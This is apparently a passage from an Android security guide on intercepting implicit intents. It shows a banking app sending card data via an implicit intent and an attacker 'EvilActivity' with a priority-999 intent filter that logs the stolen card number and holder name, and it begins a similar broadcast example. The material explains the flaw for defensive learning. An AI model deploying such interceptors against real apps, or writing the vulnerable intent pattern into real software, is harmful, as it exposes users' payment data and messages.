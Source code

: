 ## Insecure activity launches

If an app uses implicit intents with certain private data to launch activities you can start to handle the same actions to intercept the private data. For example, suppose a banking app uses an implicit intent with card data to launch an activity:

```xml
<activity android:name=".AddCardActivity">
    <intent-filter>
        <action android:name="com.victim.ADD_CARD_ACTION" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

```java
Intent intent = new Intent("com.victim.ADD_CARD_ACTION");
intent.putExtra("credit_card_number", num.getText().toString());
intent.putExtra("holder_name", name.getText().toString());
// ...
startActivity(intent);
```

You can intercept card data as follows:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".EvilActivity">
        <intent-filter android:priority="999">
            <action android:name="com.victim.ADD_CARD_ACTION" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
    </activity>
    ```

- `EvilActivity.java`

    ```java
    Log.d("d", "Number: " + getIntent().getStringExtra("credit_card_number"));
    Log.d("d", "Holder: " + getIntent().getStringExtra("holder_name"));
    // ...
    ```

## Insecure broadcasts

If an app uses implicit intents to deliver a broadcast you can register a broadcast receiver with the same action and intercept a user's broadcast from a different app. For example, suppose a messaging service requests new messages from the server and passes them to a broadcast receiver that is responsible for displaying them on the user's screen:

```java
Intent intent = new Intent("com.victim.messenger.IN_APP_MESSAGE");
intent.putExtra("from", id);
intent.putExtra("text", text);
sendBroadcast(intent);
```
